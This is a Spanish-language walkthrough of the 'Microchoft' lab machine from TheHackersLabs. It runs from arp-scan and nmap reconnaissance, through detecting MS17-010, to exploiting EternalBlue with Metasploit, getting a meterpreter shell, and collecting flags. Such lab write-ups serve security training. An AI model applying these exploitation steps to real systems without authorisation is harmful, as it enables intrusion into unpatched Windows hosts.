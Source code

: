 # Microchoft TheHackersLabs

***

## 1 - Reconocimiento

#### P1 - Averiguar la ip de la maquina victima

> Usando la herramienta arp-scan podemos escanear nuestra red para ver todas las ip con las q tenemos conectividad, con ayuda de el comando ping podemos saber si una maquina es windows o linux mirando el TTL (windows -> 128, linux -> 64), en este caso como la maquina victima es windows y es la unica maquina windows de mi red es fácil de identificar

```Shell
arp-scan -I eth0 --localnet
```

<figure><img src="../.gitbook/assets/Microchoft - Descubrimiento de hosts (1).jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Escaneo de puertos con nmap

```Shell
nmap -p- --open --min-rate=5000 -sS -n -Pn 192.168.0.20
```

<figure><img src="../.gitbook/assets/Microchoft - Nmap.jpg" alt=""><figcaption></figcaption></figure>

## 2 - Enumeración

#### P1 - Scripts basicos de reconocimiento y versiones de los servicios

```Shell
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 192.168.0.20
```

<figure><img src="../.gitbook/assets/Microchoft - Versiones de servicios, Scripts.jpg" alt=""><figcaption></figcaption></figure>

> Vemos que nos estamos enfrentando a un windows 7, asi que posiblemente sea vulnerable a eternal blue, vamos a comprobarlo

```Shell
nmap -p445 --script smb-vuln-ms17-010 192.168.0.20
```

<figure><img src="../.gitbook/assets/Microchoft - script de nmap eternalblue.jpg" alt=""><figcaption></figcaption></figure>

> Vemos que si es vulnerable, en el siguiente paso veremos como explotar esta vulnerabilidad con metasploit

## 3 - Explotación

#### P1 - Uso de metasploit para explotar eternalblue

> Dentro de msfconsole buscamos eternal blue

```Shell
search eternalblue
```

<figure><img src="../.gitbook/assets/Microchoft - Eternalblue.jpg" alt=""><figcaption></figcaption></figure>

> Para elegir el payload simplemente tenemos que usar el comando use seguido de el id del payload que queramos elegir en este caso el 0

```Shell
use 0
```

<figure><img src="../.gitbook/assets/Microchoft - use 0.jpg" alt=""><figcaption></figcaption></figure>

> Una vez elegido el payload, con el comando show options podemos listar la informacion que necesita el exploit para poder ser ejecutado correctamente

```Shell
show options
```

<figure><img src="../.gitbook/assets/Microchoft - show options.jpg" alt=""><figcaption></figcaption></figure>

> Indicamos la ip de la maquina victima con el comando set RHOSTS

```Shell
set RHOSTS 192.168.0.20
```

<figure><img src="../.gitbook/assets/Microchoft - Set rhosts.jpg" alt=""><figcaption></figcaption></figure>

> Con el comando run lanzamos el exploit y vemos que obtenemos una shell meterpreter

<figure><img src="../.gitbook/assets/Microchoft - meterpreter.jpg" alt=""><figcaption></figcaption></figure>

## 4 - Escalada de privilegios

#### P1 - Recolección de flags

> En esta maquina no hay escalada de privilegios, las flags estan en los escritorios de cada usuario

<figure><img src="../.gitbook/assets/Microchoft - ls users.jpg" alt=""><figcaption></figcaption></figure>

> flag de Lola

<figure><img src="../.gitbook/assets/Microchoft - flag lola.jpg" alt=""><figcaption></figcaption></figure>

> flag de Admin

<figure><img src="../.gitbook/assets/Microchoft - flag admin.jpg" alt=""><figcaption></figcaption></figure>

***
